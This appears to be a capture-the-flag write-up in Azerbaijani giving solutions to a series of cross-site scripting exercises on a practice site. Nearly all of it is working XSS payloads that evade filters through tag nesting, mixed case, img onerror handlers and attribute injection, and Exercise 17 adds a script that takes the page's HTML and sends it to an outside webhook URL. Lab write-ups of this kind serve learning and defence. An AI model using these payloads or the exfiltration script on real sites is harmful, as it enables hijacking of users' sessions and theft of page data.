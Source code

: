 Exercise 1 – A Truly Disruptive Startup
saytın axtarış bölməsində bu kodu(```<script>success()</script>```) yazırıq və axtar düyməsinə klikləyirik.
sayt xss hücumundan müdafiə olunmadığı üçün hücumumuz uğurlu olacaq.

Exercise 2 – No Script Allowed
ikinci tapşırıqda server yazdığımız kodun başındakı scripti təmizləyir.Serveri aldatmağımız üçün belə bir kod yazmağımız kifayətdir.```</script><script>success()</script>```


Exercise 3 – One More Time, Like You Mean It
üçüncü tapşırıqda yazdığımız kodun hər iki tərəfindəki script teqini silir.```<scrscriptipt>alert(1)</scrscriptipt> ```


Exercise 4 – An Open-and-Shut Case
server daxil olunan koddakı script teglərini təmizləyir.Yazılışda biraz dəyişiklik etsək müdafiəni aşa bilərik.```<ScRiPt>success()</sCriPt>  ```      

Exercise 5 – Time to Mix Things Up
5-ci tapşırıqda server daxil olunan script və SCRİPT teqlərini təmizləyir.```<ScRiPt>success()</sCriPt>```

Exercise 6 – A Picture is Worth a Thousand Words
6-cı tapşırıqda server script teqini yazılışından asılı olmayaraq təmizlədiyindən biz başqa teqlərdən istifadə etməliyik.        ```<image src =q onerror=success()>```

Exercise 7 – Between a Rock And a Hard Place
        ```<button onClick="success()">Submit</button>```

Exercise 8 – Angle of Death
       ``` <!--<img src="--><img src=x onerror=javascript:success()//">```

Exercise 10 – In the Wrong Place at the Wrong Time
       ``` "<img src=/ onerror="success()" />```

Exercise 11 – You Can't Win 'em All
        ```"" onerror="success()"```

Exercise 12 – When All is Said and Done
       ``` ' onload=success()```

Exercise 14 – Here Today and Gone Tomorrow
axtarış yerində hər hansı bir şey axtarırıq.Sonra dili dəyişdiririk.Url də language-i dəyişdiririk.Səyfənin page source -nu açırıq.b
Burda languagenin dəyişdiyini görürük.Bu xss inyeksiya açığının ola biləcəyi deməkdir
```http://caloogle.xyz:4140/search?q=bdhehegdhg&lang=en%20onload=success()```

Exercise 15 – The Early Bird Catches the Worm
        ```</script> <img src=/ onerror=success() /> <script>```

Exercise 16 – Tying Up Loose Ends
        ```<<<///scrip<<//script>>t>>><img src =q onerror=success()>```

Exercise 17 – Take a Page Out of Their Book
       ```function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://google.com', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}

send('<script> payload = document.documentElement.innerHTML; window.location="https://webhook.site/my-private-id?query=" + encodeURIComponent(payload); </script>')```
